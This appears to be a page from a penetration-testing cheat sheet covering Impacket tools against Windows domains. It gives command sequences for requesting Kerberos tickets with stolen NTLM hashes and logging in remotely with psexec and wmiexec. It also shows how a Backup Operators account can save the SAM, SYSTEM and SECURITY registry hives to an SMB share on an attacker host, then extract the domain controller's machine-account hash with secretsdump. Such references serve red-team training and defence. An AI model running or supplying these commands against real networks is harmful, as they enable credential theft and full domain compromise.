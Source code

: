 [getTGT.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py): get a Kerberos ticket and use it to access other services

```shell
# If in VirtualBox, disabling time synchronization between the virtual machine and the host.
sudo service virtualbox-guest-utils stop
# synchronize with server time
sudo ntpdate <target ip>
#
getTGT.py -hashes '<LMHASH:NTHASH>' <domain>/<username>
# Kerberos credentials cache
export KRB5CCNAME=<username>@<domain>.ccache
export KRB5CCNAME=<TGT_ccache_file>
# showing Kerberos credentials cache
klist
# login method1
python3 psexec.py -k -no-pass <target>
# login method2
wmiexec.py -k -no-pass <target>
```

[reg.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/reg.py): remote registry manipulation tool through the ```MS-RRP``` [(Windows Remote Registry Protocol)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78)

```shell
reg.py <domain>/<valid username with domain> -hashes '<LMHASH:NTHASH>' query -keyName <Registry Root Keys>
# Registry Root Keys: HKCR, HKCU, HKLM, HKU, HKCC
```

- BACKUP OPERATORS

```shell
python smbserver.py -smb2support share /tmp

reg.py "<domain>"/"<backup_operator_username>":"<password>"@"<dc ip>" save -keyName 'HKLM\SAM' -o '\\<attacker ip>\share'
reg.py "<domain>"/"<backup_operator_username>":"<password>"@"<dc ip>" save -keyName 'HKLM\SYSTEM' -o '\\<attacker ip>\share'
reg.py "<domain>"/"<backup_operator_username>":"<password>"@"<dc ip>" save -keyName 'HKLM\SECURITY' -o '\\<attacker ip>\share'

secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
# find the string below
# $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:9b5ccb9700e3ed723df08132357ff6a1
secretsdump.py <domain>/'<machine accounts>'@<dc ip> -hashes <LMHASH:NTHASH>
# e.g., secretsdump.py test.com/'DC01$'@192.168.0.100 -hashes :9b5ccb9700e3ed723df08132357ff6a1
```

If running `reg.py` times out, we can use the following executable, which needs to be compiled.

[BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA)

```shell
python smbserver.py -smb2support share /tmp
```
It requires some time.
